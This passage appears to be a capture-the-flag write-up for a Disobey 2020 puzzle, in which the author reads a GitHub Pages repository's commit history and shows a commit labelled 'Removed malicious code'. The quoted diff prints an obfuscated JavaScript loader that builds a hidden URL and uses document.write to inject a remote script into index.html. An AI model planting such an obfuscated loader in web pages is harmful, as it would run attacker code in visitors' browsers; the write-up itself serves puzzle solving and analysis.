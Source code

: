 ```
Date:   Fri Jul 19 14:51:25 2019 +0300

    Merge pull request #1 from 0x4141414141414141/effect

    Add cool effect to the header text

commit 0ac77ce7b261eaad945219cd2b1349fc7041a814
Author: AAAAAAAA <0x41414141414141@protonmail.com>
Date:   Fri Jul 19 14:47:12 2019 +0300

    Add cool effect to the header text

commit a8e04ac1e014ef0aaf55eb6daadd6a6d66a349e1
Author: Diso Bey <disobey2020@io.fi>
Date:   Mon Jul 1 01:01:01 2019 +0300

    Initial commit

commit 4517bd04e348c331837fa8833810cbba465618c9
Author: Diso Bey <disobey2020@io.fi>
Date:   Thu May 16 01:00:45 2019 +0300

    Removed malicious code

```

The first thing I saw was the commit 4517bd04e348c331837fa8833810cbba465618c9. I really wanted to know what the malicious code was so I checked the specific commit.

```
whois@cypher → ~/gits/disobey2020.github.io → ↑ master → git show 4517bd04e348c331837fa8833810cbba465618c9

commit 4517bd04e348c331837fa8833810cbba465618c9
Author: Diso Bey <disobey2020@io.fi>
Date:   Thu May 16 01:00:45 2019 +0300

    Removed malicious code

diff --git a/index.html b/index.html
index 6f95a95..6045303 100755
--- a/index.html
+++ b/index.html
@@ -53,9 +53,6 @@
                          crossorigin="anonymous"></script>
   <script src="https://cdnjs.cloudflare.com/ajax/libs/animejs/2.0.2/anime.min.js"></script>
   <script>
-var _0x4311=['.fi','/ma','l.js','write','<script\x20src=\x22','s://','0x42'];(function(_0x426e03,_0x359476){var _0x17c635=function(_0x5dfa16){while(--_0x5dfa16){_0x426e03['push'](_0x426e03['shift']());}};_0x17c635(++_0x359476);}(_0x4311,0x9f));var _0x5a74=function(_0x2d8f05,_0x4b81bb){_0x2d8f05=_0x2d8f05-0x0;var _0x4d74cb=_0x4311[_0x2d8f05];return _0x4d74cb;};var f1='hT';var f2='tP';var f3=_0x5a74('0x0');var f4=_0x5a74('0x1');var f5=_0x5a74('0x2');var f6=_0x5a74('0x3');var f7=_0x5a74('0x4');document[_0x5a74('0x5')](_0x5a74('0x6')+f1+f2+f3+f4+f5+f6+f7+'\x22><\/script>');
-  </script>
-  <script>
   // Wrap every letter in a span
   $('.ml9 .letters').each(function(){
     $(this).html($(this).text().replace(/([^\x00-\x80]|\w)/g, "<span class='letter'>$&</span>"));
```
